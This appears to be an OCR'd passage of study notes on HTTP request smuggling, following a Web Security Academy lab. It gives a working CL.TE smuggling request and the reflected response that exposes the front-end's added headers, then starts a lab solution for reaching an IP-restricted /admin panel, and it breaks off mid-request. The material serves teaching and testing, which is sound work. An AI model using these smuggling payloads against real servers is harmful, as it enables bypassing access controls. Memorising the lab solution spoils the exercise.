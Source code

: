```<input id="email" value="wiener@normal-user.net" type="text">```

Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server:

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
...
```

The requests will be rewritten by the front-end server to include the additional headers, and then the back-end server will process the smuggled request and treat the rewritten second request as being the value of the email parameter. It will then reflect this value back in the response to the second request:

```
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

### Exploiting HTTP request smuggling to reveal front-end request rewriting

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

**Solution**

1. Browse to /admin and observe that the admin panel can only be loaded from *127.0.0.1*.

2. Use the site's search function and observe that it reflects the value of the search parameter.
3. Use Burp Repeater to issue the following request twice.

    ```
    POST / HTTP/1.1
    Host: acb31fac1ef8ea1dc02972f900e200ff.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 124
    Transfer-Encoding: chunked

    0

    POST / HTTP/1.1
```